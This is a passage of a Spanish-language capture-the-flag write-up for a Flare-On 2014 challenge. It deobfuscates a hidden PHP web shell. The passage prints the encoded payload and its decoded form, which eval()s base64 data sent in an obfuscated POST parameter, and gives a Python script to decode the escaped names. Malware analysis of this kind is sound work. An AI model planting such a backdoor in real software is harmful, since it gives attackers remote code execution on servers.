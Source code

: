 En esta parte, tenemos 3 definiciones que después pasan por eval(), por lo que empecemos decodificar cada una de ellas:

    $_ = aWYoaXNzZXQoJF9QT1NUWyJcOTdcNDlcNDlcNjhceDRGXDg0XDExNlx4NjhcOTdceDc0XHg0NFx4NEZceDU0XHg2QVw5N1x4NzZceDYxXHgzNVx4NjNceDcyXDk3XHg3MFx4NDFcODRceDY2XHg2Q1w5N1x4NzJceDY1XHg0NFw2NVx4NTNcNzJcMTExXDExMFw2OFw3OVw4NFw5OVx4NkZceDZEIl0pKSB7IGV2YWwoYmFzZTY0X2RlY29kZSgkX1BPU1RbIlw5N1w0OVx4MzFcNjhceDRGXHg1NFwxMTZcMTA0XHg2MVwxMTZceDQ0XDc5XHg1NFwxMDZcOTdcMTE4XDk3XDUzXHg2M1wxMTRceDYxXHg3MFw2NVw4NFwxMDJceDZDXHg2MVwxMTRcMTAxXHg0NFw2NVx4NTNcNzJcMTExXHg2RVx4NDRceDRGXDg0XDk5XHg2Rlx4NkQiXSkpOyB9

Esto parece base64, veamos si lo podemos decodificar:

![var1-base64-decode](/img/flareon-2014-challenge-02/var1-base64-decode.png)

Ok, ahora tenemos las siguientes instrucciones:

```
if(
  isset( $_POST["\97\49\49\68\x4F\84\116\x68\97\x74\x44\x4F\x54\x6A\97\x76\x61\x35\x63\x72\97\x70\x41\84\x66\x6C\97\x72\x65\x44\65\x53\72\111\110\68\79\84\99\x6F\x6D"]
  )
)
{
  eval(
    base64_decode(
      $_POST["\97\49\x31\68\x4F\x54\116\104\x61\116\x44\79\x54\106\97\118\97\53\x63\114\x61\x70\65\84\102\x6C\x61\114\101\x44\65\x53\72\111\x6E\x44\x4F\84\99\x6F\x6D"]
    )
  );
}
```

Las variables $\_POST contienen tanto datos en decimal como hexadecimal, por lo que debemos cambiar el encoding de cada una, para ello he escrito el siguiente programa en python que resuelve los dec y los hex:

```python
#!/usr/bin/env python
# encoding: utf-8

import re, binascii

line1=r'\97\49\49\68\x4F\84\116\x68\97\x74\x44\x4F\x54\x6A\97\x76\x61\x35\x63\x72\97\x70\x41\84\x66\x6C\97\x72\x65\x44\65\x53\72\111\110\68\79\84\99\x6F\x6D'
line2=r'\97\49\x31\68\x4F\x54\116\104\x61\116\x44\79\x54\106\97\118\97\53\x63\114\x61\x70\65\84\102\x6C\x61\114\101\x44\65\x53\72\111\x6E\x44\x4F\84\99\x6F\x6D'

def replace_dec(match):
    return chr(int(match.group(1)))

def replace_hex(match):
    return match.group(1)[1:].decode('hex')

regex_dec = re.compile(r"\\(\d{1,3})")
regex_hex = re.compile(r"\\(x[0-9A-Fa-f]{2})")

print regex_hex.sub(replace_hex, regex_dec.sub(replace_dec, line1))
print regex_hex.sub(replace_hex, regex_dec.sub(replace_dec, line2))
```
